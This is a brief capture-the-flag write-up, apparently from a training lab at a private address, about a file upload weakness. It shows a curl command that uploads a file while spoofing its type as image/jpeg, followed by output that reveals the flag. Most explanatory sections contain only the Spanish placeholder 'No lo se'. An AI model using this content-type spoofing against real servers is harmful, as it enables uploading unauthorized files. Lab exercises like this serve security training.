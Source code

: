 # File Upload

## Page
* Url: http://192.168.56.101/?page=upload

## Exploit found

* No lo se

## Weaknesses

* No lo se

## Exploitation

* No lo se

```
curl -X POST -F "Upload=upload" -F "uploaded=@./Resource/nani;type=image/jpeg" "http://192.168.56.101/?page=upload" | grep succes
```

```

Resource git:(main) ✗ curl -X POST -F "Upload=upload" -F "uploaded=@./nani;type=image/jpeg" "http://192.168.56.101/?page=upload" | grep succes
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3036    0  2745  100   291    548     58  0:00:05  0:00:05 --:--:--   571
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/nani succesfully uploaded.</pre>


```

## Solution

* No lo se

## Sources

* No lo se

## FLAG
[-- 🌱 --][2]

[2]: ./flag.txt